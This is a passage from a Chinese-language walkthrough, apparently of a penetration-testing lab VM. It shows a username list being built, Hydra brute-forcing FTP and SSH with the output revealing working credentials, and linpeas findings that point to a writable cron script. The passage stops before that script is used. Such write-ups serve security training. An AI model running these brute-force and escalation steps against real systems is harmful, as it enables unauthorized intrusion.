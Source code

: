 ```
cat user| cut -d '\' -f2| cut -d ' ' -f1 > user.txt

eter
RNunemaker
ETollefson
DSwanger
AParnell
SHayslett
MBassin
JBare
LSolum
IChadwick
MFrei
SStroud
CCeaser
JKanode
CJoo
Eeth
LSolum2
JLipps
jamie
Sam
Drew
jess
SHAY
Taylor
mel
kai
zoe
NATHAN
www
elly
```

尝试用这个用户名也作为密码字典进行 FTP 爆破，得到一个用户凭据：

```
hydra -t 20 -L user.txt -P user.txt  ftp://192.168.10.161

[21][ftp] host: 192.168.10.161   login: SHayslett   password: SHayslett
```

ftp 进入后，发现了一堆系统文件，查看后，没发现什么有用的信息。既然 ftp 能登陆，能不能这个凭证也能登陆 ssh，尝试进行 ssh 爆破：

```
hydra -t 20 -L user.txt -P user.txt  ssh://192.168.10.161

[22][ssh] host: 192.168.10.161   login: SHayslett   password: SHayslett
```

使用 linpeas 进行系统枚举，发现了一些重要枚举信息：

-   系统内核版本为：4.4.0-21-generic，可能存在一些列内核漏洞;
-   发现 /usr/local/sbin/cron-logrotate.sh 我们具有写入权限，并且这个文件是每隔 5 分钟执行一次
